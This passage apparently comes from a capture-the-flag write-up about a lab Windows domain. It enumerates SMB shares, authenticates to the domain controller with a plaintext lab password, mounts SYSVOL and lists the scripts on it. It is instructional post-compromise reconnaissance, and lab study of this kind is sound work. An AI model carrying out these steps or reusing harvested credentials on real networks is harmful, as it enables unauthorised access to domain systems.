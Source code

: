 We can enumerate SMB Shares within the machine: ^cae2ef
```bash
PS C:\Users\BTables\Desktop> Get-SMBShare

Name   ScopeName Path Description  
----   --------- ---- -----------  
ADMIN$ *              Remote Admin 
C$     *              Default share
IPC$   *              Remote IPC 
```
We can try to connect to the shares on the DC:
```bash
PS C:\Users\BTables\Desktop> net use \\dc.fulcrum.local\IPC$ /user:FULCRUM\BTables ++FileServerLogon12345++
The command completed successfully.
```
And then we can list the shares in the DC:
```bash
PS C:\Users\BTables\Desktop> net view \\dc.fulcrum.local\
Shared resources at \\dc.fulcrum.local\
Share name  Type  Used as  Comment              
-------------------------------------------------------------------------------
NETLOGON    Disk           Logon server share   
SYSVOL      Disk           Logon server share   
The command completed successfully.
```
We can then mount the share SYSVOL on the compromised machine to check its content:
```bash
PS C:\Users\BTables\Desktop> net use x: \\dc.fulcrum.local\SYSVOL /user:FULCRUM\BTables ++FileServerLogon12345++

The command completed successfully.
```
And we found a ton of scripts inside the Share:
```bash
PS X:\fulcrum.local\scripts> dir
    Directory: X:\fulcrum.local\scripts


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-a----        2/12/2022  10:34 PM            340 00034421-648d-4835-9b23-c0d315d71ba3.ps1                                                                                                                                                                
-a----        2/12/2022  10:34 PM            340 0003ed3b-31a9-4d8f-a152-a234ecb522d4.ps1
```
